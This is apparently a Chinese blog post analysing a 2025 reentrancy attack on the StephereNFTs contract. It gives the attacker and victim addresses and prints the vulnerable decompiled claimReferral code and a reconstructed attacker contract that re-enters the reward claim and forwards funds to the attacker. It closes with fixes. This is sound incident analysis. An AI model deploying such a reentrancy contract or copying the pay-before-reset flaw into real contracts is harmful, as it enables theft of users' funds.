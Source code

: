 ```yaml
---
title: "StephereNFTs 遭遇重入攻击分析"
date: 2025-02-21T11:25:05
featured_image: "/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png"
tags: ["web3安全事件","合约审计"]
description: "StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金"
---
```

## 攻击概述
2025 年 2 月 ，StephereNFTs 遭遇了一起严重的重入攻击，攻击者通过精心构造的恶意合约，利用智能合约逻辑漏洞，成功盗取了大量资金。

### 参考地址：  
https://nickfranklin.site/2025/02/21/stepheronfts-attacked/

## 相关地址
- **受害合约地址**：`0x9823e10a0bf6f64f59964be1a7f83090bf5728ab`
- **攻击者地址**：`0xFb1cc1548D039f14b02cfF9aE86757Edd2CDB8A5`
- **恶意合约1**：`0xd4c80700ca911d5d3026a595e12aa4174f4cacb3`
- **恶意合约2**：`0xb4c32404de3367ca94385ac5b952a7a84b5bdf76`
- **恶意合约3**：`0x8f327e60fb2a7928c879c135453bd2b4ed6b0fe9`
- **攻击交易 (tx)**：https://bscscan.com/tx/0xef386a69ca6a147c374258a1bf40221b0b6bd9bc449a7016dbe5240644581877

## 攻击步骤解析
### 1. 部署恶意合约
攻击者首先部署了多个恶意合约，以便后续进行重入攻击。

<center>{{< figure src="/images/424896141-692a2eae-d3d7-40bc-b16b-d86c061c5645.png" width="100%" title="图1" >}}</center>


### 2. 通过闪电贷获取初始资金
攻击者利用闪电贷借入了一笔资金，用于后续触发合约的奖励机制。

<center>{{< figure src="/images/424903484-37fadaff-fa68-43cf-b0a7-c7d5f971b4c2.png" width="100%" title="图2" >}}</center>


<center>{{< figure src="/images/424903603-00bd518d-2372-4e43-a7c6-f7b91f26245d.png" width="100%" title="图3" >}}</center>
通过购买资产获取奖励资格

### 3. 通过重入攻击不断获取受害合约资金
攻击者发现受害合约的奖励机制存在漏洞：
- 在领取奖励时，合约会检查推荐奖励的数量。
- 但由于合约先发放奖励，再将奖励计数清零，导致可以在清零前重复调用领取奖励函数，实现重入攻击。

攻击者利用这一漏洞，不断调用恶意合约，通过递归方式重复领取奖励，最终盗取了大量资金。

## 关键漏洞分析
该攻击的核心漏洞在于 **先发奖励后清零** 的逻辑顺序问题，导致了经典的重入攻击 (Reentrancy Attack)。

**漏洞代码示例**：
```solidity
function claimReferral(address varg0) public nonPayable {  find similar
    require(msg.data.length - 4 >= 32);
    require(!_paused, Error('Pausable: paused'));
    require(owner_5[msg.sender][varg0], Error('not-enough-money'));
    0x2d1e(varg0, owner_5[msg.sender][varg0], msg.sender);
    owner_5[msg.sender][varg0] = 0;
    emit 0x9c21c092f05b64df5ae0cbf557b9bf4e9695cdbeaa13fcf9a0831bce847f0cfb(msg.sender, varg0, owner_5[msg.sender][varg0]);
}
```


攻击者可以重复调用重新调用 `claimReferral`，从而在清零前多次获取奖励。

具体发送的函数
```solidity
function 0x2d1e(address varg0, uint256 varg1, address varg2) private { 
    if (varg0) {
        MEM[MEM[64] + 36] = varg2;
        MEM[MEM[64] + 68] = varg1;
        0x2c96(100 + MEM[64], 0xa9059cbb00000000000000000000000000000000000000000000000000000000, varg0);
        return ;
    } else {
        v0, /* uint256 */ v1 = varg2.call().value(varg1).gas(msg.gas);
        if (RETURNDATASIZE() != 0) {
            v2 = new bytes[](RETURNDATASIZE());
            v1 = v2.data;
            RETURNDATACOPY(v1, 0, RETURNDATASIZE());
        }
        require(v0, Error('transfer-BNB-failed'));
        return ;
    }
}
```

另外这里展示下黑客用来实现反复调用的第三部分恶意合约：
(使用LLM处理了一下)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract TokenHandler {
    address private owner;
    address private token1;
    address private token2 = 0xFb1cC1548d039f14b02cfF9ae86757edD2cdB8A5;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "invalid sender");
        _;
    }

    function func_6f2db99c() external {
        // 调用 owner 的某个函数 (e61aee51)
        //重复调用claimReferral函数
        (bool success, ) = owner.call(abi.encodeWithSignature("e61aee51()"));
        require(success);
    }

    function withdraw(address token, uint256 amount) external onlyOwner {
        // 获取 token 在调用者地址的余额
        (bool success1, bytes memory data) = token.call(
            abi.encodeWithSelector(0x70a08231, address(this))
        );
        require(success1);
        uint256 balance = abi.decode(data, (uint256));

        // 调用 withdraw (0x2e1a7d4d)
        (bool success2, ) = token.call(abi.encodeWithSelector(0x2e1a7d4d, balance));
        require(success2);

        // 调用 token 的 transfer 函数
        (bool success3, ) = token.call(
            abi.encodeWithSelector(0xa9059cbb, msg.sender, balance)
        );
        require(success3);

        // 向 msg.sender 发送 1 wei
        (bool success4, ) = msg.sender.call{value: 1}("");
        require(success4);

        // 向 token2 发送当前合约余额
        (bool success5, ) = token2.call{value: address(this).balance}("");
        require(success5);
    }

    function executeCall() internal {
        // 复杂的外部调用逻辑，可能涉及 delegatecall 或其他操作
        // 这里简化表示
        (bool success, ) = token1.call{value: address(this).balance}("");
        require(success, "call failed");

        // 调用 token1 的函数 0x50eb1dfe
        (bool success2, ) = token1.call(
            abi.encodeWithSelector(0x50eb1dfe, token2, address(this).balance)
        );
        require(success2);
    }
}
```

## 解决方案
为了防止类似的重入攻击，可以采取以下措施：
1. **使用 Checks-Effects-Interactions 模式**：
   - 先更新状态，再进行外部调用，以避免重入风险。
2. **使用 `ReentrancyGuard`**：
   - 通过 OpenZeppelin 提供的 `nonReentrant` 修饰符，防止函数的嵌套调用。
3. **避免直接调用 `call` 进行转账**：
   - 推荐使用 `transfer` 或 `send`，虽然限制了 GAS，但能降低重入攻击的风险。

